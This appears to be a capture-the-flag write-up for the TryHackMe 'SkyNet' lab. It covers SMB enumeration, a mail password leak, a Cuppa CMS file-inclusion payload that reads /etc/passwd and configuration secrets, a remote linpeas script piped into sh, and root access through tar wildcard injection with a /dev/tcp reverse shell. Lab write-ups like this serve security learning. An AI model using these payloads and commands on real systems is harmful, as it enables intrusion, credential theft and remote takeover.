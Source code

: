 ```yaml
---
title: SkyNet
tags:
- writeups
---
```


## Enumeration
![[write-ups/images/Pasted image 20220822143023.png]]
- for smb I ran `enum4linux` in the background
	- ![[write-ups/images/Pasted image 20220822145222.png]]
	- tried anonymous login & found this
	- ![[write-ups/images/Pasted image 20220822145314.png]]
	- ![[write-ups/images/Pasted image 20220822145346.png]]
	- so we have a list of potential passwords for the `mikedyson` user
- goin on the web server we have this search bar
	- ![[write-ups/images/Pasted image 20220822145457.png]]
	- however it doesn't seem to do anything so I ran `gobuster`
	- ![[write-ups/images/Pasted image 20220822145603.png]]
	- most of them gave me [403 Frobidden](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/403), but [squirrelmail](https://www.squirrelmail.org/) was available which is *"a standards-based webmail package written in PHP"*. As we've seen in the nmap scan the target is running a mail server & this is a front-end to that
	- ![[write-ups/images/Pasted image 20220822145944.png]]

## Getting user 

### Password Leak
So remembering my list from smb, I tried logging in as `milesdyson` with the first one & it just worked 
![[write-ups/images/Pasted image 20220822150038.png]]

Going through the mails we see that we might have a SMB password leak
![[write-ups/images/Pasted image 20220822150148.png]]
And indeed we do, now we can have a look at the `milesdyson` shared folder.
![[write-ups/images/Pasted image 20220822152030.png]]
Books on machine learning and a bunch of notes, while interesting not so useful for us. However, I still downloaded everything: `smbget -R smb://10.10.94.44/milesdyson -U milesdyson`. Going through the files, one popped up:
![[write-ups/images/Pasted image 20220822153006.png]]
Hmm, to test if it's actually running a CMS on that endpoint I went to the browser
![[write-ups/images/Pasted image 20220822153049.png]]

### Local File Inclusion to RCE
Besides getting more insight in who Miles Dyson is we can't to much. Going back to gobuster revealed `/administrator` which runs [cuppa CMS](https://www.cuppacms.com/)
![[write-ups/images/Pasted image 20220822153616.png]]
Tried to login as `milesdyson` hoping to have some kind of credential reuse & also the defaults, but nothing. At this point I went to my old friend google & found a [file inclusion](https://www.exploit-db.com/exploits/25971). To try it I went to the following URL: `http://10.10.94.44/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`
![[write-ups/images/Pasted image 20220822153840.png]]
As the exploit note says, we can access `Configuration.php` & leak the password by supplying this payload:`urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php`. It will get us the contents of the configuration file in base64, so decode it and voila:
![[write-ups/images/Pasted image 20220822154222.png]]
Or we can do more nasty stuff such as executing php code & getting a [reverse shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)
![[write-ups/images/Pasted image 20220822160118.png]]

## Cron with wildcard injection privesc
Once I got onto the system I ran the [pwncat's enumeration module](https://pwncat.readthedocs.io/en/latest/enum.html) & linpeas: `curl http://10.18.12.227:8000/linepas.sh | sh` . While taking my time going through anything peculiar I noticed a `backup.sh` in `milesdyson` home dir which is owned by `root`
![[write-ups/images/Pasted image 20220822161050.png]]

As it turns out, the backup acts a cron job that runs [once every minute](https://crontab.guru/#*/1_*_*_*_*)
![[write-ups/images/Pasted image 20220822160816.png]]

Taking a look again at the `backup.sh` script I noticed it ran `tar` with a general wildcard `*` and not `/path/*` or `./*`. Thus we can do unexpected things, such as privesc, through [[Wildcard Injection]]. If confused about the topic take a look at [this paper](https://www.exploit-db.com/papers/33930) going in depth. The basic idea is that we can inject arbitrary arguments to shell commands by creating specially crafted filenames.

In our case we have to look @ [tar](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar) & identify args that can be used for poisoning: `--checkpoint` and `--checkpoint-action` are our cadidates:
![[write-ups/images/Pasted image 20220822170616.png]]

Going forward we need to create 2 files: `--checkpoint=1` and `--checkpoint-action=exec=sh privesc.sh`, placing them in `/var/www/html` *(since that's where `tar` gets executed)*. Doing that, tar will get confused & treat our files as arguments that instruct it to execute our `privesc.sh` script as `root`.
```bash
echo 'bash -i >& /dev/tcp/10.18.12.227/1337 0>&1' > privesc.sh && touch "/var/www/html/--checkpoint=1" "/var/www/html/--checkpoint-action=exec=sh privesc.sh"
```

Now we just need to wait 1 minute to get our root shell ☕
![[write-ups/images/Pasted image 20220822165638.png]]


## See Also
- [[Wildcard Injection]]
- [[write-ups/THM]]
